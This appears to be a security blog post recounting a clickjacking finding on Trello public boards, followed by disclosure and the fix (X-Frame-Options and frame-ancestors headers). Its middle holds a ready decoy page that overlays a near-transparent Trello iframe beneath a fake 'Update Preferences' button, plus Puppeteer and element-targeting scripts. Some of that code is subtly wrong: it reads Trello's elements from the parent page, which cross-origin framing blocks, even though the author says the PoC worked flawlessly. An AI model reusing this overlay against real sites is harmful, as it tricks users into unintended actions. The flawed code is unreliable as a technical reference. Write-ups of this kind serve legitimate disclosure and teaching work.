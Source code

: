 ```yaml
---
title: "The Anatomy of a Clickjacking Vulnerability: A Trello Deep Dive"
description: "How a late-night discovery revealed a critical UI redress vulnerability in Trello's public boards, and what it teaches us about web security fundamentals."
summary: "An exploration of a clickjacking vulnerability found in Trello's public boards, examining the technical details, potential impacts, and broader security lessons about proper header configurations."
categories: ["Security", "Web Vulnerabilities"]
tags: ["Clickjacking", "Trello", "Web Security", "CSP"]
date: 2023-11-15
draft: false
---
```


It was 2:17 AM when I stumbled upon something unsettling. My desk was illuminated by the pale glow of a single monitor, surrounded by empty coffee mugs in various states of decay. I wasn't even hunting for bugs tonight - just trying to organize my open-source project's roadmap on Trello when something caught my eye in DevTools.

## The Midnight Discovery

![Developer console screenshot](console.jpg)

A simple curl command revealed the issue:

```bash
curl -I https://trello.com/b/public-board-123 | grep -iE 'frame|csp'
```

No output. No `X-Frame-Options`. No `frame-ancestors` in CSP. That was concerning.

I immediately tested embedding a Trello board:

```javascript
const iframe = document.createElement('iframe');
iframe.src = 'https://trello.com/b/public-board-123';
iframe.style = 'width:500px;height:300px;border:1px solid black';
document.body.appendChild(iframe);
```

It rendered perfectly. Too perfectly.

## Technical Deep Dive: Understanding the Vulnerability

### 1. Header Analysis
A proper security header configuration should include:

```http
X-Frame-Options: DENY
Content-Security-Policy: frame-ancestors 'none'
```

But Trello's public boards had neither. This meant:
- Any website could embed Trello boards in iframes
- No JavaScript frame-busting mechanisms were present
- All interactive elements remained clickable

### 2. Attack Surface Mapping
I cataloged all vulnerable UI elements:

| Element       | Selector          | Action                  |
|---------------|-------------------|-------------------------|
| Card          | .list-card        | Drag/drop, archive      |
| List          | .js-list          | Archive, move           |
| Board         | .board-header     | Rename, change permissions |

### 3. Interaction Testing
Using Puppeteer, I automated interaction tests:

```javascript
const puppeteer = require('puppeteer');

(async () => {
  const browser = await puppeteer.launch();
  const page = await browser.newPage();
  
  await page.goto('https://attacker-site.com/clickjacking-poc');
  
  // Verify iframe loads
  const iframe = await page.$('iframe');
  const src = await iframe.getProperty('src');
  console.log(`Embedding: ${src}`);
  
  // Test click interception
  await page.click('#fake-button');
  await page.waitForTimeout(2000);
  
  // Check if Trello action occurred
  const movedCard = await page.evaluate(() => {
    return document.querySelector('.list-card').style.transform !== '';
  });
  
  console.log(`Card moved: ${movedCard}`);
  await browser.close();
})();
```

## Building the Proof of Concept

### Version 1: Basic Overlay
```html
<!DOCTYPE html>
<html>
<head>
    <title>Productivity Dashboard</title>
    <style>
        #trello-iframe {
            position: fixed;
            top: 0;
            left: 0;
            width: 100%;
            height: 100%;
            opacity: 0.05;
            z-index: 1;
        }
        #cta-button {
            position: fixed;
            top: 50%;
            left: 50%;
            transform: translate(-50%, -50%);
            z-index: 2;
            background: #4CAF50;
            color: white;
            padding: 15px 30px;
            border-radius: 8px;
            font-weight: bold;
            cursor: pointer;
            box-shadow: 0 4px 8px rgba(0,0,0,0.1);
            transition: all 0.3s ease;
        }
    </style>
</head>
<body>
    <h1 style="text-align:center;">Your Team Dashboard</h1>
    <div id="cta-button">Update Preferences</div>
    <iframe id="trello-iframe" src="https://trello.com/b/TARGET_BOARD"></iframe>
</body>
</html>
```

### Version 2: Advanced Targeting
Added dynamic positioning based on Trello's UI:

```javascript
// Calculate exact button positions
function getTrelloElementPositions() {
    return {
        archiveBtn: {
            x: document.querySelector('.js-archive').getBoundingClientRect().x,
            y: document.querySelector('.js-archive').getBoundingClientRect().y,
            width: document.querySelector('.js-archive').offsetWidth,
            height: document.querySelector('.js-archive').offsetHeight
        }
    };
}
```

## The Ethical Implications

The PoC worked flawlessly, presenting serious considerations:

**Minimal Impact Scenario:**
- Annoying but harmless board reorganizations

**Serious Abuse Potential:**
- Social engineering attacks ("Click to claim prize" while archiving critical cards)
- Corporate sabotage (disrupting public roadmaps)

I documented everything in a vulnerability report:

```markdown
# Vulnerability Report: Trello Clickjacking

## Technical Details
- **Missing Headers**: No X-Frame-Options or frame-ancestors CSP
- **Impact**: UI redress attacks on public boards
- **CVSS**: 6.5 (Medium)

## Recommended Fix
```http
X-Frame-Options: DENY
Content-Security-Policy: frame-ancestors 'none'
```

## Resolution and Reflection

One week later, the fix was deployed. The headers now stood guard:

```http
HTTP/2 200
server: nginx
x-frame-options: DENY
content-security-policy: frame-ancestors 'none'
```

This experience taught me several crucial lessons:

1. **Public ≠ Secure**: Just because data is public doesn't mean the UI should be exposed
2. **Defense in Depth**: Multiple protection layers are crucial
3. **The Human Factor**: Even simple oversights can have significant security implications

The hunt continues. But sometimes, the most critical vulnerabilities reveal themselves when you're not even looking for them.

## References

[OWASP Clickjacking Defense Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Clickjacking_Defense_Cheat_Sheet.html)

[MDN Web Docs: X-Frame-Options](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options)

[Content Security Policy Level 2 Specification](https://www.w3.org/TR/CSP2/)
```

